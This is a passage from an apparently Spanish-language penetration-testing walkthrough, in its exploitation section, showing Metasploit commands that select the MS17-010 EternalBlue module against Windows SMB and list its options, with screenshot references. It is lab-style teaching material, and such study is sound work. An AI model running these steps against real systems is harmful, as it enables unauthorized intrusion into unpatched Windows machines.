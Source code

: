     <img src="../img/Pasted_image_20240818214243.png" width="500">
</p>

# EXPLOTACIÓN

#### 4- USO EL EXPLOIT
- Voy a usar el exploit con el ID 24
```
use 0
# ó
use exploit/windows/smb/ms17_010_eternalblue
```
<p align="center">
    <img src="../img/Pasted_image_20240818214304.png" width="500">
</p>

#### 5- VER/CAMBAIR OPCIONES
- Veo las opciones que tiene
```
show options
```
<p align="center">
    <img src="../img/Pasted_image_20240818214343.png" width="500">
</p>